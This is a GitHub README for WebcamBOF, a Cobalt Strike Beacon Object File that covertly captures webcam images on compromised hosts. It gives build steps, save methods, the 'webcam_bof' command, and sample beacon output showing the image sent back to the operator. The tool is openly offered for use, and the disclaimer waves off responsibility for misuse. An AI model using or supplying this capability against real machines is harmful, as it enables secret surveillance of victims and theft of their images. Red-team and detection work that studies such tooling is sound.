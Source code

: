 # WebcamBOF

Webcam capture capability for Cobalt Strike, implemented as a Beacon Object File (BOF)

## Self Compilation
1. git clone the repo
2. run `make`

## Save methods:  
0. drop file to disk
1. download file over beacon (Cobalt Strike only)
2. download file over beacon as a screenshot (Cobalt Strike only)

## Usage
1. import the webcamBOF.cna script into Cobalt Strike
2. use the command webcam_bof {filename} {save method 0/1/2}
  
```
beacon> webcam_bof sad.jpeg 2
[*] Running Webcam BOF by (@codex_tf2)
[+] host called home, sent: 35817 bytes
[+] received output:

[*] Initializing webcam
[+] received output:

[*] Device 0: HP 320 FHD Webcam
[+] received output:

[*] Capturing image data
[+] received output:
[*] Downloading JPEG over beacon as a screenshot
[*] received screenshot of Webcam from Admin (328kb)
```
Note: the following error
```
[*] Capturing image data
[+] received output:
[ERROR] ReadSample failed with HRESULT: 0xc00d3704
```
usually indicates that the webcam is currently in use.

## Notes


## Why did I make this?
Cobalt Strike did not originally have a built in webcam capability, nor did open source alternatives exist to my knowledge. And it was a fun (not) idea.

## Credits
- Webcam code from https://github.com/OV2/WebcamImage
- Save BMP to file from https://stackoverflow.com/a/60667564
- in memory download from https://github.com/anthemtotheego/CredBandit
- bitmap to jpeg from https://github.com/WKL-Sec/HiddenDesktop

## Disclaimer
usual disclaimer here, I am not responsible for any crimes against humanity you may commit or nuclear war you may cause using this piece of poorly written code.
